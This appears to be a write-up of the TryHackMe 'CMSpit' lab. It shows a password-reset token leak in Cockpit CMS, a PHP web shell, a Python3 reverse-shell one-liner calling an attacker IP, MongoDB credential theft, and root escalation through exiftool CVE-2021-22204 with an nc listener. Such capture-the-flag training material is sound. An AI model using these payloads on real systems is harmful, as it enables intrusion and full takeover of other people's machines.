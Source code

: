 # CMSpit @Tryhackme

![image](https://user-images.githubusercontent.com/5285547/127918281-efb297cf-e998-44f4-b493-01c9b8fac058.png)

Room: https://tryhackme.com/room/cmspit  
Rating: Medium

## Recon

Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Let's cehck out port 80

We get brought straight to a login page. 

```
http://10.10.98.193/auth/login?to=/
```
![image](https://user-images.githubusercontent.com/5285547/127918935-ef823bcd-273d-4a09-a33f-7d341e643645.png)

We have no login credentials now, so we need to check the web app out further. 

Capturing the request in bursuite I notice a csfr token.

![image](https://user-images.githubusercontent.com/5285547/127920619-d634688d-611c-4719-a82b-5341bf00fdaa.png)

I've not seen a request like this before for a login, so did some research on   
google. 

I found a great article explaining how to get RCE here: https://swarm.ptsecurity.com/rce-cockpit-cms/

Using the infomation I was able to leak some info from the backend database via "/auth/check" endpoint

![image](https://user-images.githubusercontent.com/5285547/127921184-ed70735b-e714-460f-a5bc-84a154b30e16.png)

## Admin reset password. 

Now its time to use the info to reset the admins passowrd. 

1. Access /auth/requestreset to generate a token for resetting the password of the selected user:

![image](https://user-images.githubusercontent.com/5285547/127921765-f6580893-bace-4f65-a80e-17ec7ba7c0f7.png)

2. Extract tokens by using one of the methods just described (/auth/resetpassword or /auth/newpassword): 

![image](https://user-images.githubusercontent.com/5285547/127921548-cecbc904-325f-4cb4-8a2b-75f79cf748eb.png)

3. Extract user account data (username, password hash, API key, password reset token) using the /auth/newpassword method and the password reset tokens obtained in the previous step:

![image](https://user-images.githubusercontent.com/5285547/127922015-18b618a6-657a-4d6a-affe-212a3aa8df79.png)

4. Rest the password

![image](https://user-images.githubusercontent.com/5285547/127922136-60728f8b-efca-4508-b07a-2a8a7512fc59.png)

Now we can login to the admin page. 

In my case the details are.

```
admin:admin12345
```

This logs us in as the admin! :)

![image](https://user-images.githubusercontent.com/5285547/127922266-0f2ff384-f072-4b8d-8fe7-825f902d5569.png)


## RCE time

Checking out the webapp we see we can upload or create files in /finder.

```
http://10.10.98.193/finder
```

I choose to create a new file (web shell), Click create > file and make a basic webshell

![image](https://user-images.githubusercontent.com/5285547/127922510-616aa58d-1d7d-423d-87a3-596822e7424a.png)

Then click save (blue button, top right)

![image](https://user-images.githubusercontent.com/5285547/127922655-feb50931-af11-453e-9a26-3732f00e1ba6.png)

Now you can access the shell and prove code execution with 'id'

![image](https://user-images.githubusercontent.com/5285547/127922738-0aeea3e6-7608-43b8-a596-aa63ffbf2600.png)

Reverse shell payload (Python3) 

```
http://10.10.98.193/webshell.php?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.153.120",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image](https://user-images.githubusercontent.com/5285547/127922869-878a38bc-88a8-4f80-aa03-2e00fd358eca.png)

Go ahead and upgrad your term. 

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo;fg 
reset
xterm
```

## User

Now we have system access as www-data we need to move to the next user with higher permissions. 
Looking about the system and running the standard linpeas. I noticed their was a mongo database to check out. 

Mongo db is not usually password procted on the system locally. 

```
www-data@ubuntu:/home$ mongo
MongoDB shell version: 2.6.10
connecting to: test
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
        http://docs.mongodb.org/
Questions? Try the support group
        http://groups.google.com/group/mongodb-user
2021-08-02T14:01:42.514-0700 In File::open(), ::open for '' failed with errno:2 No such file or directory
> 
```

Let's see whats inside the database

```
show dbs
```

![image](https://user-images.githubusercontent.com/5285547/127923500-c5ab7f37-ebb0-48ff-b080-84d2629a59f3.png)

```
use sudousersbak
```
```
show collections
```
![image](https://user-images.githubusercontent.com/5285547/127923634-371bef6c-adee-42e6-aabd-8797974e206e.png)


```
db.user.find()
```

![image](https://user-images.githubusercontent.com/5285547/127923682-e4cffabf-d11b-4df6-94ac-adc71b1b0955.png)


Now we have the login details for stux, lets ssh into the box with the new details. 
And grab the user flag! 

![image](https://user-images.githubusercontent.com/5285547/127923801-61909fa0-4801-4a4f-8158-0995516a573d.png)


## Root

Using sudo -l instantly shows a privesc path. 

```
stux@ubuntu:~$ sudo -l
Matching Defaults entries for stux on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User stux may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/local/bin/exiftool
```

It seems that exiftool is vunerable to a certain file type djvu. 

I made a writeup here and explination: https://github.com/AssassinUKG/CVE-2021-22204

After you have made the exploitable image, uplaod it to the target and have a reverse shell listner ready. 


Listner

```
nc -lnvp 9999
```

Exploit image

```
sudo /usr/local/bin/exiftool panda.jpg 
```

You will then get a call back from the reverse shell as root!

![image](https://user-images.githubusercontent.com/5285547/127924346-9029ee9d-b230-4ed0-a201-9473538ac6fe.png)

Grab the last few flags to answer the rest of the questions. I have not told you all of the locations so you have something to aim for! 

I hope you enjoyed the box as much as i did! 

Take care, hacker crew 


